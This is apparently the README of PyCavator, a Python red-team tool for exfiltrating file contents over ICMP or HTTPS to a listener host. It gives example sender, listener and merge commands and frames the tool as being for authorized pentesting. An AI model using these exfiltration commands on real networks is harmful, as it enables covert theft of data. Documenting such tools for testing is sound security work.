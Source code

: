 # PyCavator

PyCavator is a Python-based tool that can be used to send and receive data using ICMP/HTTPS packets. 
The tool can be used for authorized red teaming and penetration testing activities or educational purposes. 
It provides a sender mode to exfiltrate data from a file and a listener mode to receive incoming data and save it in chunks or to a single file. 
The tool also includes a merge mode to merge output files with part numbers in the specified range. 
With PyCavator, users can easily exfiltrate or receive data using ICMP packets in a secure and efficient manner.

## Usage

### ICMP 

<b>Required libraries:</b><br/>
- All libraries are part of the default Python installation.<br/>

#### Examples:
  <b>Sender mode: exfiltrate data from a file</b><br/>
```bash  
python pycavator-icmp.py -f input.txt -d 192.168.1.101
```  
  <b>Listener mode: listen for incoming data and save in chunks</b><br/>
```bash
python pycavator-icmp.py -l -s 192.168.1.100 -w c
```  
  <b>Listener mode: listen for incoming data and save to a single file</b><br/>
```bash  
python pycavator-icmp.py -l -s 192.168.1.100 -w s -o output_folder
```  
  <b>Merge mode: merge output files with part numbers in the specified range</b><br/>
```bash
python pycavator-icmp.py --merge -x output -a 1 -b 10 -e txt -o output_folder
```

### HTTPS 

<b>Required libraries:</b><br/>
- `argparse`: used for parsing command-line arguments<br/>
- `requests`: used for sending HTTP requests<br/>
- `Flask`: used for creating the web server<br/>
- `ssl`: used for configuring SSL/TLS encryption<br/>
- `urllib3`: used for disabling SSL warnings<br/>

#### Examples:
  <b>Sender mode: exfiltrate data from a file</b><br/>
```bash
python pycavator-https.py -f input.txt -d 192.168.1.101 -p 4443 -ca ca.pem -t "eyJhbGciO..._adQssw5c"
```
  <b>Listener mode: listen for incoming data and save to a single file</b><br/>
```bash
python pycavator-https.py -l -s 192.168.1.100 -p 4443 -pb cert.pem -pk key.pem -o /tmp -t "eyJhbGciO..._adQssw5c"
``` 

## Installation

PyCavator requires Python 3 to be installed. To install PyCavator, clone the repository and install the required Python modules:

```bash
git clone https://github.com/kryptohaker/PyCavator.git
cd PyCavator
pip install -r requirements.txt
```

## How to Contribute

If you would like to contribute to PyCavator, please fork the repository and submit a pull request.

## Disclaimer

This tool is intended for authorized/legitimate red teaming and pentesting activities or educational purposes only. The author of the tool is not responsible for any misuse or illegal activities that may arise from the use of this tool. Users are responsible for complying with all applicable laws and regulations. By using this tool, you acknowledge that you have read this disclaimer and agree to its terms.

## License

This project is licensed under the Creative Commons Attribution-NonCommercial-NoDerivatives 4.0 International (CC BY-NC-ND 4.0) license. This means that you are free to share and distribute the original work with proper attribution to the original author, but you may not modify the work or use it for commercial purposes. Additionally, any new versions of the work must be distributed under the same license and with proper attribution to the original author. See the [LICENSE](LICENSE) file for details.




